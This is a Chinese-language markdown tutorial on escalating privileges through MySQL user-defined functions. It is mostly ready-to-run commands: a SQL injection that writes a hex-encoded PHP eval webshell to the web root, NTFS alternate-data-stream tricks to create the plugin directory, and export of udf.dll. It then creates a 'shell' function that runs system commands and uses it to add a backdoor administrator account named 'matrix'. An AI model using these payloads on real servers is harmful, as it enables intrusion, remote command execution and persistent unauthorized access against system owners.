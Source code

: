         # mysql 提权
## UDF提权
虽然MySQL的内置函数虽然丰富，但毕竟不能满足所有人的需要，有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对 MySQL 进行一些扩展，这就是可以自行添加的MySQL 的 UDF。

MYSQL5.1及之后的几个版本又多了一个限制：创建函数时所用的DLL只能放在mysql的plugin目录里面，而且这个plugin目录默认是不存在的，可能就是为了防止黑客通过导出文件的方式将DLL来写到这个文件夹，如果导出文件（`into dumpfile`）的目标目录不存在是会报错的。

**所以在导出UDF提权之前 ，先确定一下MYSQL的版本是有必要的**
`select version();`
## 写入一句话木马

```sql
    union select 
    0x3c3f70687020406576616c28245f504f53545b2770617373275d293b3f3e,2,3 into 
    dumpfile 'c:/www/small.php'

    以上语句连续执行两次，如果出现以下错误，即说明文件写入成功：
    Invalid Query：File 'c:/www/small.php' already exists
    //第二次写入提示文件已存在则说明文件写入成功
```
## 查看MYsql安装根目录
select @@basedir;

根据 我们前面讲述的MySQL5.1版本及其之后版本，我们自定义函数需要用到的shell导出的目录应该是： 
> C:/Program Files/phpStudy/MySQL/lib/plugin/

其实也可以通过以下语句获得插件目录(并不一定真实存在):

> show variables like '%plugin%';

## 创建/lib/plugin目录
> select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib::INDEX_ALLOCATION';   
//利用NTFS ADS创建lib目录

> select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin::INDEX_ALLOCATION';
//利用NTFS ADS创建plugin目录

**利用NTFS ADS创建目录成功率很小，这个命令执行返回一直为空，二次执行不提示目录已存在，即可判断目录创建失败。如上图即目录创建失败。**

## 将udf.dll 导出到plugin目录

> select load_file('C:/www/udf.dll') into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin/udf.dll';


## 通过sql语句通过udf.dll 创建shell函数

### 创建一个自定义函数 shell

    create function shell returns string soname 'udf.dll';
    //假设此时udf.dll被上传到了c:\windows\system32目录
    
    create function shell returns string soname 'C:udf.dll';
    //假设此时udf.dll被上传到了C盘根目录目录
    
    create function shell returns string soname 'udf.dll';
    //假设此时udf.dll被上传到了任意的环境变量目录，如C:\php\

### 用法
`shell`函数用于执行系统命令，用法如下，其中的`set`是将要执行的cmd命令： 
> select shell('cmd','set');
//set命令用于查询系统环境变量  

然后我们尝试在服务器添加一个用户名为`matrix`密码为`matrix`的账户:  
> select shell('cmd','net user matrix matrix /add');
接着尝试把`matrix`账户添加到`administrators`管理组：  
> select shell('cmd','net localgroup administrators matrix /add');  
然后查看详细的账户信息，确认是否已经成功添加上账户和账户是否已经被成功添加到管理员组。如下操作：  
> select shell('cmd','net user matrix');


## 完毕
提权完毕之后我们可以通过以下语句删除相关函数以防被他人利用：

    drop function shell;
    //删除函数
    delete from mysql.func where name='shell';
    //删除函数